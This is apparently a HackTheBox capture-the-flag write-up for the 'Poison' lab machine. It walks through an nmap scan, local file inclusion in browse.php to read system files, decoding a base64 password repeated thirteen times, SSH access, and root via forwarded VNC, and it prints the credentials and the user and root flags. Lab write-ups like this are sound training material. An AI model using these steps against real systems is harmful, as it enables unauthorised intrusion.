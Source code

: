 # Poison
>Author : Xyan1d3
>Date : 5th July 2021
>IP : 10.10.10.84
>OS : FreeBSD
>Difficulty : Medium
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Mon Jul  5 19:36:01 2021 as: nmap -sC -sV -v -oN nmap/poison 10.10.10.84
Nmap scan report for poison.htb (10.10.10.84)
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

## Web Enumeration
We visit the website and find out that we have a website which executes local php files.
![[Pasted image 20210705195157.png]]

Here, We find that we have a field which takes the name of the local php file.
![[Pasted image 20210705200049.png]]
The file parameter on the `browse.php` is vulnerable to LFI.
On doing some `../` we could easily dump the `/etc/passwd`.
![[Pasted image 20210705200529.png]]

We could now, check all the php file listed on the homepage.

The `listfiles.php` is particularly instersting as it lists all the files inside the webdirectory.
![[Pasted image 20210705202833.png]]

We could visit the php page and list the files in the `www-data` directory.
![[Pasted image 20210705203029.png]]
```php
Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

We could now visit the `pwdbackup.txt` and find out that it is a very long `base64` chunk encoded muliple times.
```txt
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

We use `cyberchef` and decode this chunk `13` times with `base64` decode to find our credentials.
![[Pasted image 20210705203514.png]]

# Initial FootHold as charix
The password after decoding it `13` times is `Charix!2#4%6&8(0`
```
┌─[Magisk@Xyan1d3]─[10.10.14.18]─[~/htb/poison]
└──╼ # ssh charix@10.10.10.84
The authenticity of host '10.10.10.84 (10.10.10.84)' can't be established.
ECDSA key fingerprint is SHA256:rhYtpHzkd9nBmOtN7+ft0JiVAu8qnywLb48Glz4jZ8c.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.84' (ECDSA) to the list of known hosts.
Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
charix@Poison:~ % id
uid=1001(charix) gid=1001(charix) groups=1001(charix)
charix@Poison:~ % whoami
charix
```

## Getting User Flag
```python
charix@Poison:~ % ls -l
total 8
-rw-r-----  1 root  charix  166 Mar 19  2018 secret.zip
-rw-r-----  1 root  charix   33 Mar 19  2018 user.txt
charix@Poison:~ % cat user.txt 
eaacdfb2d141b72a589233063604209c
```


# Root Escalation
We could check the open ports of the box by doing a `netstat -an`.
```python
charix@Poison:~ % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.22         10.10.14.18.47570      ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*                    
udp6       0      0 *.514                  *.*
```
Here, We see that the box is listening on `VNC` which we could SSH port forward on to our box. 

We could check the home directory and find out that we have a `secret.zip`.
```python
charix@Poison:~ % ls -l
total 8
-rw-r-----  1 root  charix  166 Mar 19  2018 secret.zip
-rw-r-----  1 root  charix   33 Mar 19  2018 user.txt
```

We transfer this `zip` file onto our box and extract it using the SSH credentials of `charix` user. We find out we have a file which is junk.

We could use the `secret` file as a credential to `VNC` into the box.
After, SSH port tunneling `5801` and `5901` we could do a VNC to the box.
```python
vncviewer -passwd secret 127.0.0.1:5901
```
![[Pasted image 20210705212646.png]]

## Getting root Flag
```python
root@Poison:~ # ls -l
total 56
-rw-------  1 root  wheel     51 Jul  5 16:04 .Xauthority
-rw-r--r--  2 root  wheel    943 Mar 19  2018 .cshrc
-rw-------  1 root  wheel      0 Mar 19  2018 .history
-rw-r--r--  1 root  wheel    149 Jul 21  2017 .k5login
-rw-r--r--  1 root  wheel    295 Jul 21  2017 .login
-rw-r--r--  2 root  wheel    249 Jul 21  2017 .profile
-rw-------  1 root  wheel   1024 Jan 24  2018 .rnd
drwx------  2 root  wheel    512 Jan 24  2018 .ssh
drwxr-xr-x  2 root  wheel    512 Jan 24  2018 .vim
-rw-------  1 root  wheel  12952 Mar 19  2018 .viminfo
drwx------  2 root  wheel    512 Jul  5 16:04 .vnc
----------  1 root  wheel     33 Jan 24  2018 root.txt
root@Poison:~ # cat root.txt
716d04b188419cf2bb99d891272361f5
```